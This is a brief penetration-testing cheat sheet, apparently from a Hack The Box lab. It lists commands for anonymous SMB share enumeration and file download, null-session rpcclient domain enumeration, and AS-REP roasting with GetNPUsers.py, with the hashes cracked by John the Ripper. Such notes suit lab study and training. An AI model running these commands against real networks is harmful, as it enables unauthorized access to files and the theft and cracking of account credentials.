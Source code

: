 Port 5985 - WinRM
### SMB :
       smbclient -U "" -L //<ip>         ->  -L flag Get a list of shares available on a host
       smbcleint -U "" //<ip>            ->  Connects to our users shares
 
       smb: \> recurse on               ->  Recursively list the contents
       smb: \> ls
       
       mget                             ->  Downloads file
       
       smbget -R smb://<ip>/path/ -U "" -> -R flag recursive download smbfiles owned by -U
       
### rpcclient:
      rpcclient -U "" -N 10.10.10.161
      commands:
               enumdomusers
               enumdomgroups
               queryuser 0x
               querygroup 0x
               querygroupmem 0x

### AS-REP Roasting:
      ./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt
      john --wordlist=/usr/share/wordlists/rockyou.txt hash
